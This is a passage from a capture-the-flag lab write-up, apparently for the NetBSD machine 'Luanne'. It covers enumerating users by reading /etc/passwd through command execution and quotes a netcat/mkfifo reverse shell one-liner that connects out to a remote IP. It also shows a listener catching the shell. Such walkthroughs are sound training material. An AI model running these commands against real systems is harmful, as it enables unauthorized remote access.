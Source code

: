 Using this command execution I pulled `/etc/passwd` to enumerate the users on the machine.  There were only two users who could login with a shell, `root` and `r.michaels`.  

```text
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```

The command `uname -a` revealed this to be a NetBSD system.  I wasn't sure what kind of reverse shell would work on a BSD system, so I checked the one-stop-shop for all things Payload.

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md\#netcat-openbsd](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd)

> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f`

![](/assets/img/13-reverse-shell.png)

I found a reverse shell with nc \(without -e\) for openbsd, and hoped that it would work for this distro as well.  The response hung for awhile after sending, which was a good sign.

## Initial Foothold

```bash
┌──(zweilos㉿kali)-[~/htb/luanne]
└─$ script luanne-init  
Script started, output log file is 'luanne-init'.
┌──(zweilos㉿kali)-[~/htb/luanne]
└─$ bash
zweilos@kali:~/htb/luanne$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.187] from (UNKNOWN) [10.10.10.218] 54839
sh: can't access tty; job control turned off
$ id && hostname
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
luanne.htb
```
